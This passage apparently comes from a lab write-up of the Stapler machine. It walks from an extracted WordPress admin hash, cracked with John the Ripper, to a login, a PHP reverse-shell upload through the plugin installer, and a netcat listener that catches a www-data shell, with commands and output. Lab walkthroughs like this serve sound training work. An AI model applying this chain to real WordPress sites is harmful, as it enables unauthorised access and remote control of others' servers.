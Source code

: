 ```sh
16 rows in set (0.192 sec)

MySQL [wordpress]> 
```

Extract the hash of the user `john:$P$B7889EMq/erHIuZapMB8GEizebcIy9.` who is a administrative user.

Use john to crack the hash.

```sh
naveenj@hackerspace:|23:22|~/proving_grounds/Stapler/files$ john hash --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (phpass [phpass ($P$ or $H$) 128/128 AVX 4x3])
Cost 1 (iteration count) is 8192 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
incorrect        (?)     
1g 0:00:00:09 DONE (2023-10-01 23:22) 0.1028g/s 19022p/s 19022c/s 19022C/s ireland4..iloveaj2
Use the "--show --format=phpass" options to display all of the cracked passwords reliably
Session completed.
```

Now login to worpress https://192.168.208.148:12380/blogblog/wp-login.php using credentials `john:incorrect`.

Direct to Plugins ➡️ Add New ➡️ Upload Plugin .

Download pentest monkey PHP reverse shell and make changes accordingly and select the file to upload and Click Install Now.

![img](/assets/images/CTF/Proving_Grounds/Stapler/upload.png)

Once it's uploaded direct to https://192.168.208.148:12380/blogblog/wp-content/uploads/ and trigger the reverse shell.

```sh
naveenj@hackerspace:|01:34|~/proving_grounds/Stapler$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [192.168.45.193] from (UNKNOWN) [192.168.208.148] 51462
Linux red.initech 4.4.0-21-generic #37-Ubuntu SMP Mon Apr 18 18:34:49 UTC 2016 i686 athlon i686 GNU/Linux
 06:34:44 up 32 min,  0 users,  load average: 0.00, 0.01, 0.06
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
bash: cannot set terminal process group (1408): Inappropriate ioctl for device
bash: no job control in this shell
www-data@red:/$ 
```
